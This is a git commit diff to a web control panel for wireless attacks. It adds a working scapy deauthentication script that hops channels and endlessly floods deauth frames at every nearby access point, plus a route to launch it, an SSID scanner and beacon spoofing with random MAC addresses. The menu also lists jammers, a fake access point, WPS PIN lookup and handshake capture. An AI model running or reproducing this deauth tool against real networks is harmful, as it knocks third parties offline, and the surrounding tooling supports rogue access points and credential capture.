

added deauth, wifi-scan

diff --git a/template/index.html b/template/index.html
@@ -33,9 +33,6 @@
             <a href="/ip_a" target="_blank">ip a</a>
           </li>
           <li class="items-list">
-            <a href="/iw_dev_wlan_link" target="_blank">network connection check</a>
-          </li>
-          <li class="items-list">
             <a href="/lspci_lsusb" target="_blank">lspci, lsusb</a>
           </li>
           <li class="items-list">
@@ -43,15 +40,6 @@
           </li>
           <li class="items-list">
             <a href="/iw_reg_get" target="_blank">iw reg get</a>
-          </li>
-          <li class="items-list">
-            <a href="/cat_proc_net_dev" target="_blank">cat proc/net/dev</a>
-          </li>
-          <li class="items-list">
-            <a href="/ls_sys_class_net" target="_blank">ls sys/class/net</a>
-          </li>
-          <li class="items-list">
-            <a href="/dmesg_wlan" target="_blank">dmesg wlan</a>
           </li>
           <li class="items-list">
             <a href="/iw-wlan-info" target="_blank">iw wlan info (wlan1)</a>
@@ -66,10 +54,22 @@
             <a href="/iwlist-channel" target="_blank">iwlist channel</a>
           </li>
           <li class="items-list">
+            <a href="/dmesg_wlan" target="_blank">dmesg wlan</a>
+          </li>
+          <li class="items-list">
+            <a href="/cat_proc_net_dev" target="_blank">cat proc/net/dev</a>
+          </li>
+          <li class="items-list">
+            <a href="/ls_sys_class_net" target="_blank">ls sys/class/net</a>
+          </li>
+          <li class="items-list">
             <a href="/route-netstat" target="_blank">ip route, netstat -ntu</a>
           </li>
           <li class="items-list">
             <a href="/system_connections" target="_blank">system connections</a>
+          </li>
+          <li class="items-list">
+            <a href="/iw_dev_wlan_link" target="_blank">network connection check</a>
           </li>
           <li class="items-list">
           </li>
@@ -126,7 +126,7 @@
             <a href="/ls" target="_blank">ls (current directory)</a>
           </li>
           <li class="items-list">
-            <a href="/name_to_mac/<name>" target="_blank">get name by mac (all)</a>
+            <a href="/name_to_mac/<name>" target="_blank">get mac by name (all)</a>
           </li>
           <li class="items-list">
             <a href="/mac_to_wpspin/<address>" target="_blank">get wpspin by mac</a>
@@ -229,6 +229,9 @@
           <li class="items-list">
             <a href="/wifijammer" target="_blank">wifijammer. deauthentication all channels (wlan1)</a>
           </li>
+          <li class="items-list">
+            <a href="/scapy_deauthentication_all_channel" target="_blank">scapy. deauthentication all channels (wlan1)</a>
+          </li>
 
           <li class="items-list">
           </li>
@@ -303,6 +306,9 @@
             <a href="/tshark_wlan_beacon" target="_blank">tshark wlan beacon (wlan1)</a>
           </li>
           <li class="items-list">
+            <a href="/scapy_wifi_scan" target="_blank">scapy wifi scan</a>
+          </li>
+          <li class="items-list">
             <a href="/scapy-lan-scan" target="_blank">scapy LAN scan</a>
           </li>
           <li class="items-list">
@@ -322,7 +328,7 @@
             <a href="/fake-ap" target="_blank">fake AP + dhcp (wlan1mon)</a>
           </li>
           <li class="items-list">
-            <a href="/send_beacon" target="_blank">send beacon (wlan1)</a>
+            <a href="/scapy_beacon" target="_blank">scapy send beacon (wlan1)</a>
           </li>
 
           <li class="items-list">

diff --git a/template/css/style.css b/template/css/style.css
@@ -199,7 +199,7 @@ li:last-child {
   vertical-align: top;
   margin-right: 25px;
   width: 472px;
-  height: 1000px;
+  height: 1020px;
   filter: drop-shadow(0px 0px 40px rgba(0, 0, 0, 0.1));
   background-color: #fff;
   background-position: top;
@@ -214,7 +214,7 @@ li:last-child {
   display: inline-block;
   vertical-align: top;
   width: 472px;
-  height: 1000px;
+  height: 1020px;
   filter: drop-shadow(0px 0px 40px rgba(0, 0, 0, 0.1));
   background-color: #fff;
   background-position: top;

diff --git a/functions/manager.py b/functions/manager.py
@@ -25,7 +25,7 @@ __all__ = ['network_manager_read_conf', 'change_mac', 'set_tcpdump_eapol',
            'get_ls_sys_class_net', 'set_create_ap', 'connecting_aps',
            'get_system_connections', 'set_airodump_manufacturer_uptime_wps',
            'get_dmesg_wlan', 'set_airodump_channel_36_177', 'set_tcpdump_pnl',
-           'set_send_beacon', 'set_new_mac']
+           'set_scapy_beacon', 'set_scapy_deauthentication', 'set_scapy_scan']
 
 FINISH = "<h2><font color='red'>FINISH</font></h2>"
 NOT_FOUND = "<h2><font color='red'>NOT FOUND</font></h2>"
@@ -279,7 +279,7 @@ def set_mdk3_fake_ap():
     return FINISH
 
 
-def set_send_beacon():
+def set_scapy_beacon():
     cmd = f"xterm -e python3 {BEACON} {WLAN} MyFreeWifi"
     model(cmd=cmd, arg='')
     return FINISH
@@ -295,6 +295,11 @@ def set_aireplay_deauthentication():
     mac = get_iwlist_wlan_scan_mac()
     # cmd = f"xterm -e aireplay-ng -0 0 -D {WLAN}"
     [model(cmd=f"xterm -e aireplay-ng -0 5 -a {i} {WLAN}", arg='') for i in mac]
+    return FINISH
+
+
+def set_scapy_deauthentication():
+    model(cmd=f"xterm -e python3 {DEAUTH} {WLAN}", arg='')
     return FINISH
 
 
@@ -475,8 +480,15 @@ def set_tcpdump_eapol():
     return FINISH
 
 
+def set_scapy_scan():
+    set_wlan_mode_monitor()
+    cmd = f"gnome-terminal --window -- bash -c 'python3 {SCAN} {WLAN}'"
+    subprocess.run(cmd, shell=True)
+    return FINISH
+
+
 def set_scapy_lan_scan():
-    cmd = "python3 functions/scapy-scan.py"
+    cmd = "python3 functions/scapy-wifi-scan.py"
     result = subprocess.getoutput(cmd)
     if result:
         return get_html('blue', result)

diff --git a/functions/deauth.py b/functions/deauth.py
@@ -1,0 +1,49 @@
+#!/usr/bin/env python
+from scapy.all import *
+from sys import argv
+from os import system
+from time import sleep
+from random import randrange
+from multiprocessing import Process
+
+iface = argv[1]
+
+
+def wifi_snif():
+    pkt = sniff(iface=iface, timeout=1,
+                lfilter=lambda x: x.haslayer(Dot11Beacon) or x.haslayer(
+                    Dot11ProbeResp))
+    u_pkt = []
+    u_addr2 = []
+    for p in pkt:
+        if p.addr2 not in u_addr2:
+            u_pkt.append(p)
+            u_addr2.append(p.addr2)
+    return u_pkt
+
+
+def deauth(pkt):
+    system("iw dev %s set channel %d" % (iface, ord(pkt[Dot11Elt:3].info)))
+    sendp(RadioTap() / Dot11(type=0, subtype=12, addr1="ff:ff:ff:ff:ff:ff",
+                             addr2=pkt.addr2, addr3=pkt.addr3) / Dot11Deauth(),
+          count=4, iface=iface, verbose=0)
+
+
+def chg_cnl():
+    while True:
+        cnl = randrange(1, 13)
+        system("iw dev %s set channel %d" % (iface, cnl))
+        sleep(0.3)
+
+
+def main_fnc():
+    p = Process(target=chg_cnl)
+    p.start()
+    pkt_ssid = wifi_snif()
+    p.terminate()
+    for pkt in pkt_ssid:
+        deauth(pkt)
+
+
+while 1:
+    main_fnc()

diff --git a/app.py b/app.py
@@ -140,9 +140,9 @@ def mdk3_fake_ap() -> str:
     return set_mdk3_fake_ap()
 
 
-@app.route('/send_beacon')
-def send_beacon() -> str:
-    return set_send_beacon()
+@app.route('/scapy_beacon')
+def scapy_beacon() -> str:
+    return set_scapy_beacon()
 
 
 @app.route('/mdk4_deauthentication_all_channel')
@@ -153,6 +153,11 @@ def mdk4_deauthentication() -> str:
 @app.route('/aireplay_deauthentication_all_channel')
 def aireplay_deauthentication() -> str:
     return set_aireplay_deauthentication()
+
+
+@app.route('/scapy_deauthentication_all_channel')
+def scapy_deauthentication() -> str:
+    return set_scapy_deauthentication()
 
 
 @app.route('/aireplay_inject')
@@ -258,6 +263,11 @@ def tshark_wlan_beacony() -> str:
 @app.route('/tcpdump_pnl')
 def tcpdump_pnl() -> str:
     return set_tcpdump_pnl()
+
+
+@app.route('/scapy_wifi_scan')
+def scapy_wifi_scan() -> str:
+    return set_scapy_scan()
 
 
 @app.route('/tcpdump_eapol')

diff --git a/functions/beacon.py b/functions/beacon.py
@@ -1,11 +1,18 @@
 #!/usr/bin/python3
 from scapy.all import *
 from sys import argv
-from functions.manager import set_new_mac
+from random import random
 
 iface = argv[1]
 essid = argv[2]
 INTERVAL = 0.05
+
+
+def set_new_mac():
+    src = list(map(lambda x: "%02x".upper() % int(random() * 0xFF), range(5)))
+    new_mac = "00:" + ':'.join(src)
+    return new_mac
+
 
 source = set_new_mac()
 target = 'ff:ff:ff:ff:ff:ff'

diff --git a/functions/wifi-scan.py b/functions/wifi-scan.py
@@ -1,0 +1,16 @@
+#!/usr/bin/env python
+from scapy.all import *
+from sys import argv
+
+ap_list = []
+
+
+def ssid(pkt):
+    if pkt.haslayer(Dot11):
+        if pkt.type == 0 and pkt.subtype == 8:
+            if pkt.addr2 not in ap_list:
+                ap_list.append(pkt.addr2)
+                print("AP: %s SSID: %s" % (pkt.addr2, pkt.info.decode()))
+
+
+sniff(iface=argv[1], prn=ssid)

diff --git a/functions/config.example.py b/functions/config.example.py
@@ -15,3 +15,5 @@ FAKEAP = f'{TEMPFOLDER}/fakeAP/fakeAP.py'
 FLUXION = f'{TEMPFOLDER}/fluxion'
 PNL = 'functions/./pnl.sh'
 BEACON = 'functions/./beacon.py'
+DEAUTH = 'functions/./deauth.py'
+SCAN = 'functions/./wifi-scan.py'
